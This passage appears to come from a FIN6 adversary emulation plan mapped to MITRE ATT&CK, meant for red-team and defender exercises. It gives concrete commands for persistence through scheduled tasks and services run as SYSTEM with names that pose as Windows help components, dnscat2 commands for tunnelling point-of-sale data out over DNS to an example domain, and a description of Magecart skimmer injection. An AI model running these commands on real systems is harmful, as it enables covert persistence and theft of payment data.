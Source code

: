 ```sh
"C:\Windows\System32\schtasks.exe" /create /tn #{ } /tr "rundll32.exe "C:\#{ }",#{ }" /sc #{ } /ru System
```

```sh
Example: "C:\Windows\System32\schtasks.exe" /create /tn WindowsHelpAssistant /tr "rundll32.exe "C:\Windows\SysWOW64\0409\Assistant32.dll",workerInstance" /sc onstart /ru System
```

Alternative Procedure - EXE

```sh
Example: "C:\Windows\System32\schtasks.exe" /create /tn WindowsHelpAssistant /tr "c:\windows\temp\Assistant32.exe" /sc onstart /ru System
```

##### Service Creation ([T1543.003](https://attack.mitre.org/techniques/T1543/003/))

FIN6 Procedure

```sh
sc create "Windows Help Assistant" binpath="c:\windows\temp\Assistant32.exe" start="auto" obj="LocalSystem"
```

#### 5.5 - PoS data exfiltration over DNS tunnel ([T1048.003](https://attack.mitre.org/techniques/T1048/003/)) <sup>[5](https://exchange.xforce.ibmcloud.com/threat-group/f8409554b71a79792ff099081bc5ac24)</sup> <sup>[7](https://blog.morphisec.com/new-global-attack-on-point-of-sale-systems)</sup>

Alternative Procedure

##### dnscat2 Server

```sh
ruby dnscat2.rb --dns="domain=#{ }" --no cache
```

```sh
Example: ruby dnscat2.rb --dns="domain=example.com" --no cache
```

##### dnscat2 PowerShell Client

```sh
Start-Dnscat2 -Domain #{dnscat2 server} Exec cmd
```

---

## Scenario 2 - Attacking E-Commerce Platforms

FIN6 is suspected of being responsible for the Magecart Group 6 activity.<sup>[10](https://blog.trendmicro.com/trendlabs-security-intelligence/fin6-compromised-e-commerce-platform-via-magecart-to-inject-credit-card-skimmers-into-thousands-of-online-shops/)</sup>  Magecart Group 6 is responsible for targeting high-volume E-commerce sites and exfiltrating payment data to an infrastructure that mimics that of the victim.  The group had a great deal of success in injecting Magecart scripts into legitimate 3rd party JavaScript libraries, thereby compromising the check-out process for thousands of E-commerce companies.<sup>[10](https://blog.trendmicro.com/trendlabs-security-intelligence/fin6-compromised-e-commerce-platform-via-magecart-to-inject-credit-card-skimmers-into-thousands-of-online-shops/)</sup>  FIN6 is also suspected of accomplishing enabling objectives in order to move laterally throughout an organization with the intent of gaining access to web servers.<sup>[13](https://usa.visa.com/dam/VCOM/global/support-legal/documents/fin6-cybercrime-group-expands-threat-To-ecommerce-merchants.pdf)</sup>  Once on a web server, the group modifies libraries to include custom Magecart scripts.
